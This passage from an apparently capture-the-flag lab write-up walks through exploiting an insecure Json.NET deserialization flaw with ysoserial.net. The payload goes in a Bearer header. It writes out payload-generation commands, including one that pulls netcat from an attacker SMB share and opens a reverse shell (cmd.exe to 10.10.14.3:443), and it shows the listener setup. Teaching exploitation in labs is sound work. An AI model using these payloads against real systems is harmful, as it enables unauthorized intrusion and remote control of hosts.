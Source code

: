 ![ysoserialHelp](/assets/{{ imgDir }}/ysoserialHelp.png)

![gadgetsAndFormatters](/assets/{{ imgDir }}/gadgetsAndFormatters.png)

As shown above, one of the entries is the `ObjectDataProvider` gadget which supports the `Json.NET` formatter. We know that we should use the `Json.NET` formatter since it was disclosed in the HTTP reponse earlier. To see if the `ObjectDataProvider` works in our context, we can try to ping our Kali machine from the target host. To generate a payload which can do this, we execute `ysoserial.exe -c "ping -n 10 10.10.14.3" -o base64 -g ObjectDataProvider -f Json.Net`, as shown below. This creates a base64 encoded .NET object which will try to run the command `ping -n 10 10.10.14.3` when deserialized. Note that you should change the IP address in this command to your IP address, to ensure that your machine receives the packets.

![genPing](/assets/{{ imgDir }}/genPing.png)



Next, we start [Wireshark](https://www.wireshark.org/) by executing `wireshark`. Then, we copy the base64 encoded data we obtained from YSoSerial.Net and place it in the `Bearer` header of the request to the `/api/Account` endpoint which we saw earlier. Once we have sent this request, we start receiving packets in Wireshark, as shown below. This means that we have successfully achieved remote code execution on the target!

![wireshark](/assets/{{ imgDir }}/wireshark.png)

{% highlight none linenos %}
kali@kali:/tmp/x$ mkdir myShare
kali@kali:/tmp/x$ cp /usr/share/windows-resources/binaries/nc.exe myShare/
kali@kali:/tmp/x$ sudo smbserver.py myShare ./myShare
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

The next step is to get a shell on the target. We start by creating a folder named `myShare` and copying a netcat binary for Windows to this directory. This binary can normally be found in the `/usr/share/windows-resources/binaries/` directory in Kali Linux. Then, we use `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket) to create an SMB share which shares the `myShare` directory. We then proceed to generate a base64 encoded reverse shell payload by executing `ysoserial.exe -c "START /B \\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe" -o base64 -g ObjectDataProvider -f Json.Net`. When the target deserializes the reverse shell payload, it will execute the command `\\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe`. This command connects to our SMB share and uses the netcat binary there to connect back to us on port 443 and provide us with a shell on the target.

![shell](/assets/{{ imgDir }}/shell.png)

We start a netcat listener by executing `nc -lvnp 443`. We then send a request to the `/api/Account` endpoint where the `Bearer` header is set to the base64 encoded reverse shell payload we just generated. A couple of seconds after sending the request, the listener receives a connection and we acquire a shell as the `userpool` user on the target!
